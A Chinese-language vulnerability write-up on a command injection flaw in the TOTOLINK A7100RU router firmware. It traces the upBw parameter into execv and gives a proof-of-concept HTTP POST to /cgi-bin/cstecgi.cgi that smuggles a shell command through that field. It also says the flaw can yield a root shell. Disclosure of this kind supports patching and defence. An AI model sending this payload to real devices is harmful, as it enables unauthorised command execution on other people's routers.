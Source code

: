 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps46.jpg) 

 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720201057578](img/image-20220720201057578.png)

程序通过获取upBw参数下的内容传递给v33，之后将v33带入到Uci_Set_Str_By_Idx函数中

![image-20220720201153129](img/image-20220720201153129.png)

在Uci_Set_Str_By_Idx函数中，程序将a5带入到Uci_Set_Str函数中

![image-20220720201213859](img/image-20220720201213859.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720201230618](img/image-20220720201230618.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWanIeCfg",
"upBw":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps47.png) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps48.png) 

 